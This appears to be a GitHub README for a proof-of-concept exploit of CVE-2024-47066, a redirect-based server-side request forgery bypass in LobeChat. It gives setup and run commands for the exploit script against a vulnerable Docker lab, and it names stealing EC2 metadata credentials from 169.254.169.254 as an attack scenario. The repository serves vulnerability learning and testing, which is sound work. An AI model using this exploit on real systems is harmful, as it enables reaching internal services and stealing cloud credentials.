

# CVE-2024-47066
★ CVE-2024-47066 LobeChat SSRF PoC ★


## Description
**CVE-2024-47066** : Lobe Chat is an open-source artificial intelligence chat framework. Prior to version 1.19.13, server-side request forgery protection implemented in `src/app/api/proxy/route.ts` does not consider redirect and could be bypassed when attacker provides an external malicious URL which redirects to internal resources like a private network or loopback address. Version 1.19.13 contains an improved fix for the issue.


https://github.com/user-attachments/assets/2c4a3be0-5732-48f5-a96c-d361fd914fec


**Reporter**: [a1loy](https://github.com/a1loy)


## How to use

### Git clone
```
git clone https://github.com/l8BL/CVE-2024-47066.git
cd CVE-2024-47066
```
### Setup Vulnerable Environment
```sh
cd docker
docker-compose up -d
```


(External) LodeChat --> **SSRF ATTACK** --> (Internal) http://www.internal-service:4000


### Install packages 
```sh
pip install -r requirements.txt
```
### Command
```sh
python3 CVE-2024-47066.py -v <URL_TO_EXPLOIT> -i <URL_TO_REQUEST>
```

### Example 
```sh
python3 CVE-2024-47066.py -v http://localhost:3210 -i http://www.internal-service:4000
```

### Output
**CVE-2024-47066**



### Result


# Attack Scenario

## Steal EC2 Metadata Credentials 
Make Request to http://169.254.169.254

# Disclaimer
This repository is not intended to be SSRF exploit to CVE-2024-47066. The purpose of this project is to help people learn about this vulnerability, and perhaps test their own applications.

# Reference
https://github.com/advisories/GHSA-3fc8-2r3f-8wrg
